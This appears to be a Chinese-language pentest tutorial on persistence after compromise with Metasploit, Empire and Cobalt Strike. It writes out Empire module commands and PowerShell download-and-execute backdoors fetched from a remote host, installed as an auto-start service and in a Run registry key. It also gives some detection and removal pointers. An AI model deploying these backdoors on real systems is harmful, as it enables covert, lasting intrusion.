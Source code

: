 ### 0x00 前言

在渗透测试中，有三个非常经典的渗透测试框架----**Metasploit**、**Empire**、**Cobalt Strike**。

那么，通过漏洞获取到目标主机权限后，如何利用框架获得持久性权限呢？

### 0x01 MSF权限维持

使用MSF维持权限的前提是先获得一个*meterpreter*  shell，通过*meterpreter* shell获取持久性shell的方法有两种：

**Persistence模块**

通过启动项启动(persistence)的方式，在目标机器上以反弹回连。

![](./image/privilege-3-1.png)

~~~
-U：设置后门在用户登录后自启动。该方式会在HKCU\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。推荐使用该参数；
-X：设置后门在系统启动后自启动。该方式会在HKLM\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。由于权限问题，会导致添加失败，后门将无法启动。
-S：作为服务自动启动代理程序（具有SYSTEM权限）
~~~

生成的相关文件位置 ：

```
# 后门文件位置：
C:\Windows\Temp
C:\Users\Administrator\AppData\Local\Temp
# 注册表位置：
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\
HKLM\Software\Microsoft\Windows\CurrentVersion\Run\
```

![](./image/privilege-3-2.png)

**Metsvc 模块**

通过服务(metsvc)启动的方式，在目标机器启动后自启动一个服务，等待连接。

![](./image/privilege-3-3.png)

后门排查：目标主机上开启了一个Meterpreter服务。

![](./image/privilege-3-4.png)

### 0x02 Empire 权限维持

Empire的persistence模块提供了18种权限维持的方法，大致可以分为四类，即

![](./image/privilege-3-17.png)


| elevated（管理权限） | misc（杂项） |  powerbreach  | userland（用户权限） |
| :-------                | :---------           | :---------                    | :---------   |
| registry*               | add_netuser      |   deaduser                | backdoor_lnk |
| schtasks*  |   add_sid_history*    |   eventlog*    | registry |
| wmi*   |    debugger*      | resolver  | schtasks |
| wmi_updater* |   disable_machine_acct_change*   |    |  |
||   get_ssps     |    |  |
||   install_ssp*     |    |  |
||   memssp*        |    |  |
||   skeleton_key*        |    |  |



**注册表**

~~~
(Empire: agents) > agents
(Empire: agents) > interact URL3FZBV
(Empire: URL3FZBV) > usemodule persistence/elevated/registry*
(Empire: powershell/persistence/elevated/registry) > set Listener test
(Empire: powershell/persistence/elevated/registry) > execute
~~~

![](./image/privilege-3-5.png)

因为是开机启动，所以会弹个黑框，之后还会弹出注册表添加的powershell启动项的框，在注册表位置如下：

![](./image/privilege-3-6.png)

**计划任务**

~~~
(Empire: agents) > interact 9NZ2RWBC
(Empire: 9NZ2RWBC) > usemodule persistence/elevated/schtasks*
(Empire: powershell/persistence/elevated/schtasks) > set Listener test
(Empire: powershell/persistence/elevated/schtasks) > set DailyTime 22:50
(Empire: powershell/persistence/elevated/schtasks) > execute
~~~

![](./image/privilege-3-7.png)

在任务计划程序库可以看到-任务为Updater-启动程序如下可以到为powershell

![](./image/privilege-3-8.png)

**wmi**

~~~
(Empire: agents) > interact 9NZ2RWBC
(Empire: 9NZ2RWBC) > usemodule persistence/elevated/wmi
(Empire: powershell/persistence/elevated/wmi) > set Listener test
(Empire: powershell/persistence/elevated/wmi) > run
~~~

![](./image/privilege-3-9.png)

如何清除后门，最简单的方法就是使用Autoruns，选择WMI选项卡，右键就可以删除恶意后门。

![](./image/privilege-3-10.png)

### 0x03 Cobalt Strike权限维持

通过Cobalt Strike拿到一个shell，留后门的方法有很多，下面介绍两种比较常见的无文件、自启动后门。

从Cobalt Strike菜单栏，Attacks--Web Drive-by--Scaripted Web Delivery，生成powershell后门。

![](./image/privilege-3-11.png)

根据需要可以自己选择，填写所需参数默认端口是80（需要注意的就是不要使用重复端口），Type选择powershell。

![](./image/privilege-3-12.png)

点击Launch后，返回powershell远程下载执行命令。

![](./image/privilege-3-13.png)

**服务自启动后门**

~~~
sc create "Name" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\""
sc description  Name "Just For Test"   //设置服务的描述字符串
sc config Name start= auto             //设置这个服务为自动启动 
net start Name                         //启动服务
~~~

重启服务器后，成功返回一个shell。

![](./image/privilege-3-14.png)

**注册表自启动**

在windows启动项注册表里面添加一个木马程序路径，如：

~~~
beacon>getsystem
beacon>shell reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Keyname" /t REG_SZ /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\"" /f 
~~~

![](./image/privilege-3-15.png)

 账号注销后，重新登录，界面上会出现powershell快速闪过消失，成功返回shell。

![](./image/privilege-3-16.png)

注册表还有哪些键值可以设置为自启动：

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

------

### 0x04 结束语

本文简单介绍了通过三大渗透框架进行权限维持的几种方法，了解攻击者常用的渗透框架及后门技术，有助于更好地去发现并解决服务器安全问题。


